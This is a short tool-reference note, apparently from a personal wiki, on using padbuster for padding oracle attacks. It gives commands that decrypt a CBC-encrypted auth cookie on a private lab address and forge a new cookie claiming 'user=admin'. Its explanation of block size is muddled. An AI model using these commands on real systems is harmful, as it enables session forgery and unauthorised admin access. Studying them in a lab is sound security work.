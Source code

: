 
> apt install padbuster

This tool is used for [[Padding Oracle Attack]] 

----

# Sintaxis

````bash
padbuster URL EncryptedSample/cookie... BlockSize options
````

````bash
padbuster http://192.168.1.36/index.php hbp%2FIzE9synu9M0rpNy3qNz5srXJ4sow 8 -cookies 'auth=hbp%2FIzE9synu9M0rpNy3qNz5srXJ4sow'
````

Block size --> In encrypt CBC the size of the block **have to be a multiple of eight bits**, one byte

---

## Create a encrypt message

In this case we are going to create a new cookie session indicate that the user is admin, we can do this because we decrypt this before and we see how this works:

````bash
padbuster http://192.168.1.36/index.php hbp%2FIzE9synu9M0rpNy3qNz5srXJ4sow 8 -cookies 'auth=hbp%2FIzE9synu9M0rpNy3qNz5srXJ4sow' -plaintext 'user=admin'
````

---
# Tags

#tools #padbuster

---

